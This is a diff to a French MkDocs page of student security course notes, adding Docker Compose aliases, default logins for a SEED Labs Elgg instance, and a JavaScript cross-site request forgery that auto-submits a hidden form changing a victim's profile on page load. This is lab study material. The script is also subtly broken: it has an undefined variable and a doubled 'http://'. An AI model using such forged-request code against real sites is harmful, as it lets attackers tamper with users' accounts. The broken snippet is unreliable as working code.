

Before and after one commit to FlagHunter01/school, an MkDocs documentation site: the page built from docs/cfa/ICS/index.md, in a window 1280 px wide and 1400 px high, scrolled down 3091 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3721 px from its top, so only the background shows below that.

Commit message:
Quelques notes

````diff
--- a/docs/cfa/ICS/index.md
+++ b/docs/cfa/ICS/index.md
@@ -107,10 +107,52 @@ Mais aussi: Risque = Vunérabilité, attaque, surface d'attaque, exploit
 
 [https://seedsecuritylabs.org/Labs_20.04/Web/](Labs)
 
+```sh
+// Aliases for the Compose commands above
+dcbuild # Alias for: docker-compose build
+dcup # Alias for: docker-compose up
+dcdown # Alias for: docker-compose down
+dockps
+docksh <n° recu a la commande précédente> # Il suffit d'entrer les caractères qui le rendent unique
 ```
-docker-compose build
-docker-compose up -d
-docker ps
-dockps
-docksh <n° recu a la commande précédente>
+
+Logins Elgg:
+
+UserName | Password
+---|---
+admin | seedelgg
+alice | seedalice
+boby | seedboby
+charlie | seedcharlie
+samy | seedsamy
+
+```js
+
+// Fonction qui crée et envoie le formulaire POST
+function contrefacon()
+{
+    // Contient tous les champs a passer en POST
+    var champs;
+
+    champs += "<input type=’hidden’ name=’name’ value=’Alice’>"; // Nom de l'utilisateur
+    champs += "<input type=’hidden’ name=’briefdescription’ value=’Samy is my Hero’>"; // Description
+    champs += "<input type=’hidden’ name=’accesslevel[briefdescription]’ value=’2’>"; // Visibilité de la description
+    champs += "<input type=’hidden’ name=’guid’ value=’56’>"; //Identifiant de l'utilisateur sur le site
+
+    // Formulaire
+    var formulaire = document.createElement("form");
+
+    formulaire.action = "http://http://www.seed-server.com/profile/edit/";
+    formulaire.innerHTML = fields;
+    formulaire.method = "post";
+
+    // Ajouter le formulaire a la page existante
+    document.body.appendChild(formulaire);
+
+    // Envoi du formulaire
+    formulaire.submit();
+}
+
+// Invocation de la contrefacon quand la page se charge
+window.onload = function() { contrefacon();}
 ```
````
